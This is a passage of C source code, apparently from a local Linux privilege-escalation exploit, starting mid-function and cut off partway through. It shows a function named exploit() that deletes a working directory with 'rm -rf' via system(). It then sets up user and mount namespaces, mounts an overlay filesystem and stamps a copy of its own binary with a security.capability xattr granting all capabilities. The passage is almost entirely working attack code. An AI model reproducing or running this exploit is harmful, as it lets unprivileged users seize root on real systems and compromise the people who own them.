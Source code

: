 ```c
        rd = read(fi, buf, sizeof(buf));
        if (rd == 0) {
            break;
        } else if (rd == -1) {
            if (errno == EINTR)
                continue;
            err(1, "read %s", src);
        }
        
        char *p = buf;
        while (rd > 0) {
            wr = write(fo, p, rd);
            if (wr == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "write %s", dst);
            }
            p += wr;
            rd -= wr;
        }
    }
    
    close(fi);
    close(fo);
}

static int exploit()
{
    char buf[4096];
    
    sprintf(buf, "rm -rf '%s/'", DIR_BASE);
    system(buf);
    
    xmkdir(DIR_BASE, 0777);
    xmkdir(DIR_WORK,  0777);
    xmkdir(DIR_LOWER, 0777);
    xmkdir(DIR_UPPER, 0777);
    xmkdir(DIR_MERGE, 0777);
    
    uid_t uid = getuid();
    gid_t gid = getgid();
    
    if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");
    
    xwritefile("/proc/self/setgroups", "deny");
    
    sprintf(buf, "0 %d 1", uid);
    xwritefile("/proc/self/uid_map", buf);
    
    sprintf(buf, "0 %d 1", gid);
    xwritefile("/proc/self/gid_map", buf);
    
    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);
    
    // all+ep
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";
    
    xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
    if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
```